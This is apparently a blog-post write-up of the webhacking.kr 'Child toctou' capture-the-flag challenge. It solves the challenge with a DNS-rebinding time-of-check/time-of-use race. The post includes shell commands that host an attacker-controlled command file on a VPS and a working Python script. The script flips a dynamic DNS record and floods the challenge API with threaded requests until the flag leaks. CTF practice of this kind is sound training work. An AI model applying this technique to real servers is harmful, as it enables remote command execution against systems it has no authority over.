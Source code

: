 ```yaml
---
layout: post
title: "[Webhacking.kr] Child toctou 🚲 writeup (cont'd)"
categories: hacking writeup web
---
```


## Introduction
Link: [http://webhacking.kr:10020/](http://webhacking.kr:10020/)

In the last part, I have found the vulnerable code in `api.php`. The only thing that prevented me from solving that
was the dynamic DNS functionality. With the suggestion from a friend, I finally found a way to make my exploitation
idea work.

## The exploitation

### Dynamic DNS

NoIP's Dynamic DNS service is a free service that allows us to create a DNS record. Let's make use of that.

![change_dns](/assets/images/child-toctou/change_dns.png)

But I don't want to do it manually, so I inspect the API calls on the site, and convert to Python for automation. Fortunately, modern browsers (Tested on Firefox and Chrome) support copying a request as cURL, and there is an [online service](https://curlconverter.com/) that converts cURL commands to Python code.

![curl](/assets/images/child-toctou/inspector.png)

### DNS Resolver

Python can use OS's DNS resolver with `socket.gethostbyname` method, but it is slow and behind DNS caching mechanisms which can not be bypassed. So I used `dnspython` library.

One thing I noticed was when changing DNS record, DNS servers don't reflect the change immediately. There are some jumpings back and forth between the old and the new IPs. So my code didn't reliably work every time, but that is okay because I just need to see the flag once and I'm done.


### Exposing my server

Now how do I expose my server to carry the payload? I tried using ngrok, but ngrok free plan can not expose a specific port. So I decided to buy a cheap VPS from Vultr with an public IPv4 address.
One notice is Vultr blocks all incoming traffic except on port 22 (SSH) by default, so in order to expose port 10020, we need to unblock it first

```sh
sudo ufw allow from 202.182.106.159 proto tcp to any port 10020 
```

After creating the required folder structure, I ran the server

```sh
mkdir cmd
echo "cat flag.php" > cmd/ls.txt
python3 -m http.server 10020
```

## Exploitation code

__Warning: Sensitive information got stripped off the script, so it won't run.__
```python
import requests, threading, time
import dns.resolver as dns

g_done = False

def __noip_request(ip):
    cookies = {
        'REF_CODE': 'https%3A%2F%2Fwww.noip.com%2Fmembers%2Fdns%2F',
    }

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    }

    params = {
        'host_id': '******',
    }

    data = {
        'token': '******',
        'host[host]': 'l4rzy',
        'host[domain]': 'ddns.net',
        'host[ttl]': '60',
        'host[group_id]': '0',
        'host[type]': 'a',
        'host[ip]': ip,
        'nlocations': '0',
        'host[alias]': '',
        'host[ipv6]': '',
        'host[aname]': '',
        'host[port][ip]': '',
        'host[port][port]': '8080',
        'host[redirect][protocol]': 'https',
        'host[redirect][url]': '',
        'host[mask][title]': '',
        'host[mask][meta_keywords]': '',
        'host[mask][meta_desc]': '',
        'host[mx][0][mx]': '',
        'host[mx][0][priority]': '5',
        'do': 'update',
    }

    response = requests.post('https://www.noip.com/members/dns/host.php', params=params, cookies=cookies, headers=headers, data=data)


def change_dns(toMyServer = True):
    __noip_request('******' if toMyServer else '202.182.106.159')


def send(cmd):
    cookies = {
        'PHPSESSID': 'ofq76t3822i5ee1plskj2bafmt',
        'baby_toctou': 'abc91', # just a random string, anything will work
    }

    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'keep-alive',
        # 'Cookie': 'PHPSESSID=ofq76t3822i5ee1plskj2bafmt; baby_toctou=abc91',
        'DNT': '1',
        'Referer': 'http://webhacking.kr:10020/',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36',
        'Host': 'l4rzy.ddns.net',
    }

    params = {
        'q': cmd,
    }

    response = requests.get('http://webhacking.kr:10020/api.php', params=params, cookies=cookies, headers=headers, verify=False)
    result = response.text
    if "flag{" in result:
        print(result)
        g_done = True

def check_ip(host, ip):
    result = dns.resolve(host, 'A')
    for i in result:
        resolved = i;
    print(resolved, flush=True)
    return resolved.to_text() == ip

def check_ip_times(host, ip, times):
    for i in range(times):
        if check_ip(host, ip) == False:
            return False
    return True

print('[info] changing the DNS A record to the designated IP ...')
ip_set = check_ip('l4rzy.ddns.net', '202.182.106.159')

if ip_set == False:
    change_dns(toMyServer = False)
    while ip_set ==  False:
        ip_set = check_ip_times('l4rzy.ddns.net', '202.182.106.159', 2)
        time.sleep(1)
        
print('done')
# ---------------------
print('[info] redirecting to our site ...', flush=True)
change_dns()
print(f'[info] getting in ...')

while not g_done:
    check_ip('l4rzy.ddns.net', '******')
    jobs = list()
    for i in range(10):
        jobs.append(threading.Thread(target=send, args=('ls',)))
        jobs[i].start()
        
    for i in range(10):
        jobs[i].join()
```

And when we see a bunch of requests like this on our server, the challenge got pwned.

![server_output](/assets/images/child-toctou/server_output.png)

## Conclusion
I was surprised that there were only 18 people have solved this challenge (I was the 19th). I believe many people have the idea to solve, but the process of solving it is a little bit cumbersome.

P.S. So just after solving the 2 toctou challenges, I just happened to know that TOCTOU was a class of software bugs. The idea behind this class of bugs is to exploit the time window between two calls to modify a state. Read more on wiki: (https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)[https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use]